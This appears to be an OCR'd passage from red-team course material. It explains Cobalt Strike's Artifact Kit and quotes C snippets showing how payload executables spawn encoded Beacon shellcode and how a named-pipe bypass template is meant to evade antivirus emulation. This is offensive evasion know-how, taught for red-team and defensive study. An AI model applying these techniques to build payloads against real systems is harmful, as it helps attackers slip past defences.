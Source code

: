 obalt Strike has various flavour of EXEs and DLLs that are used within its workflows.  It's common for users to not realise that these payloads work by injecting Beacon shellcode (into themselves, with the exception of the Service EXE).  The Artifact Kit is designed to facilitate the development of sandbox-safe variants of these payloads based on the premise of loading said shellcode in a manner in which AV engines cannot emulate.  It works on a system of "bypass templates" which allow you to change existing bypass strategies for reading shellcode, or implement entirely new ones.

The kit can be found in `C:\Tools\cobaltstrike\arsenal-kit\kits\artifact`.

`src-main/main.c` is the entry point for the EXE artifacts.  It does nothing more than run a function called `start` and then just loops to prevent the process from closing.
```c
#include "windows.h"

void start(HINSTANCE handle);

int main(int argc, char * argv[]) {
	start(NULL);

	/* sleep so we don't exit */
	while (TRUE)
		WaitForSingleObject(GetCurrentProcess(), 10000);

	return 0;
}
```
  

`src-common/bypass-template.c` is not a "bypass", but it serves to show how one can implement some logic inside that `start` function.  It simply grabs the payload buffer, copies it into a new memory regions, calls a `spawn` function and then frees the buffer.  This function and other parts of the program can be found in `patch.c` and `injector.c.`
```c
void start(HINSTANCE mhandle) {
	/* phear is a struct that defines how artifact.cna will patch the payload data
	   into this artifact. You're welcome to update artifact.cna to use your own
	   convention if you like. */
	phear * payload = (phear *)data;
	char * buffer;

	/* copy our encoded payload into its own buffer... necessary b/c spawn modifies it */
	buffer = (char *)malloc(payload->length);
	memcpy(buffer, payload->payload, payload->length);

	/* execute our payload */
	spawn(buffer, payload->length, payload->key);

	/* clean up after ourselves */
	free(buffer);
}
```
  

One of the bypass strategies included in the kit is called `bypass-pipe`.
```c
void start(HINSTANCE mhandle) {
   sprintf(pipename, "%c%c%c%c%c%c%c%c%cnetsvc\\%d", 92, 92, 46, 92, 112, 105, 112, 101, 92, (int)(GetTickCount() % 9898));

   /* start our server and our client */
   CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)&server_thread, (LPVOID) NULL, 0, NULL);
   client_thread(NULL);
}
```
  